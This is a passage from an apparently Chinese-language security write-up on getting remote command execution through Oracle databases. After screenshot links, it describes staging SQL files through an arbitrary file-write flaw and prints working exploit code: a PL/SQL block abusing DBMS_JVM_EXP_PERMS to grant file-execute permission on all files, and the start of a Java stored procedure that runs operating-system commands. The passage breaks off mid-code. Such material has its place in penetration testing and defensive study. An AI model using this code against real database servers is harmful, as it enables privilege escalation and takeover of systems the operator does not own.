 [![](assets/1709112088-ae525c58e58a53cf2e31102b294a7230.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101156-bf7f40c2-d5de-1.png)

最后直接命令执行

[![](assets/1709112088-ad60ab01dcb01f5a9a1e531367d80fb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101200-c1c8139a-d5de-1.png)

## sql storage

这个方法其实就是和 sh 文件一样，把多个语句放到一个 sql 文件，然后让 oracle 执行。也就是说我们需要有一个任意文件写入的点位  
permission.sql

```plain
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 
'GRANT',USER(),'SYS','java.io.FilePermission',
'<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

rce.sql

```plain
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
public class oraexec
{
    public static String execCommand(String command) throws IOException, InterruptedException {
        Runtime rt = Runtime.getRuntime();
        int bufSize = 4096;
        byte buffer[] = new byte[bufSize];
        String rc = "";
        int len;
        try{
            Process p = rt.exec(command);
            BufferedInputStream bis =
                    new BufferedInputStream(p.getInputStream(), bufSize);
            while ((len = bis.read(buffer, 0, bufSize)) != -1){
                rc += new String(buffer).split("\0")[0];;
            }
```